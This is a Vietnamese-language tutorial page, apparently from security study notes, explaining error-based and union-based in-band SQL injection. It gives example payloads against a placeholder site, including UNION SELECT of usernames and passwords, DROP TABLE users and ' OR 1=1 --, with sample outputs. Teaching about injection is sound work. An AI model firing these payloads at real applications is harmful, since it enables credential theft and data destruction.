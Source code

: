 ![In-band SQLi](../img/Screenshot%202022-05-07%20161735.png)

### **1. In-band SQLi (Classic)**

- Tin tặc **_sử dụng cùng một kênh giao tiếp để thực hiện tấn công và thu thập thông tin_**. Dữ liệu truy xuất được hiển thị trực tiếp trên trang Web của ứng dụng.
- Đây là một trong số những kiểu tấn công SQLi phổ biến nhất, bởi sự **_đơn giản_** của nó.
- Có **_2_** kiểu tấn công In-band SQLi chính: **_Error-based SQLi_** và **_Union-based SQLi_**.

&nbsp;

#### **1.1. Error-based SQLi**

_1.1.1. Định nghĩa_

Tin tặc thực hiện một số hành động trên cơ sở dữ liệu, **_bắt buộc tạo ra thông báo lỗi_**. Sau đó, có thể **_trích xuất dữ liệu sử dụng những thông báo lỗi đó_**, ví dụ như cấu trúc cơ sở dữ liệu.

_1.1.2. Khai thác Error-based SQLi_

- **_Gửi các ký tự dành riêng cho SQL, chẳng hạn như ' hoặc " và tìm lỗi hoặc các bất thường khác_**.
- **_Các ký tự khác nhau có thể trả về những lỗi khác nhau_**.

_1.1.3. Ví dụ_

Ví dụ 1

Input

```
www.random.com/products?id='
```

Backend Query

```
SELECT * FROM products WHERE id='
```

Output

```
You have an error in your SQL sytax, check the manual that corresponds to your MySQL server version…
```

Diễn giải

Ứng dụng Web sử dụng URL `www.random.com/app.php/products?id=` có thể bị tấn công SQLi. Tin tặc sử dụng một dấu ' khiến câu lệnh truy vấn lỗi và trả về Error Message. Error Message này có thể tiết lộ nhiều thông tin như Backend sử dụng DBMS nào, phiên bản bao nhiêu, thậm chí có thể là câu lệnh truy vấn SQL đã được sử dụng,...

&nbsp;

#### **1.2. Union-based SQLi**

_1.2.1. Định nghĩa_

Kĩ thuật tấn công này hoạt động dựa trên **_toán tử UNION_**, **_kết hợp kết quả của nhiều truy vấn vào một tập kết quả duy nhất_** chứa những dữ liệu có ích cho tin tặc.

_1.2.2. Khai thác Union-based SQLi_

Có hai quy tắc kết hợp tập kết quả của hai truy vấn sử dụng UNION:

- **_Số lượng và thứ tự của các cột phải giống nhau trong tất cả các truy vấn_**.
- **_Các kiểu dữ liệu phải tương thích_**.

Triển khai:

- Tìm ra **_số cột_** mà truy vấn đang thực hiện (**_sử dụng ORDER BY hoặc giá trị NULL_**)
- Tìm ra **_kiểu dữ liệu_** của các cột (chủ yếu quan tâm đến dữ liệu chuỗi)
  - **_Thăm dò từng cột để kiểm tra xem nó có thể chứa dữ liệu chuỗi hay không_** bằng cách gửi một loạt các câu lệnh UNION SELECT lần lượt đặt một giá trị chuỗi vào mỗi cột
- Sử dụng **_toán tử UNION_** để xuất thông tin từ cơ sở dữ liệu.

_1.2.3. Ví dụ_

Ví dụ 1

Input

```
www.random.com/products?id=1; UNION SELECT username, password FROM users --
```

Backend Query

```
SELECT * FROM products WHERE id=1; UNION SELECT username, password FROM users --;
```

Output

```
Carlos
afibh9cjnkuwcsfobs7h
Administrator
tn8f921skp5dzoy7hxpk
...
```

Diễn giải

Tin tặc sử dụng toán tử UNION để kết hợp kết quả của câu lệnh truy vấn sản phẩm có id='' với câu lệnh truy vấn Username, Password của tất cả người dùng trong bảng User, từ đó lấy được toàn bộ thông tin nhạy cảm của tất cả người dùng trên hệ thống, thậm chí là thông tin của người dùng quản trị viên.

Ví dụ 2

Input

```
www.random.com/products?id=1; DROP TABLE users --
```

Backend Query

```
SELECT * FROM products WHERE id=1; DROP TABLE users --;
```

Output

```
product #1
Table users dropped!
```

Diễn giải

Tin tặc không chỉ lấy những dữ liệu nhạy cảm mà còn inject đoạn mã xóa bảng User trong cơ sở dữ liệu, gây thiệt hại đáng kể cho ứng dụng.

Ví dụ 3

Input

```
www.random.com/products?id=' OR 1=1 --
```

Backend Query

```
SELECT * FROM products WHERE id='' OR 1=1 --;
```

Output

```
product #1
product #2
product #3
```

Diễn giải

Tin tặc chỉ cần thay đổi Input hợp lệ bằng một đoạn mã SQL đơn giản đã có thể lấy ra toàn bộ thông tin của tất cả các sản phẩm có trong cơ sở dữ liệu.
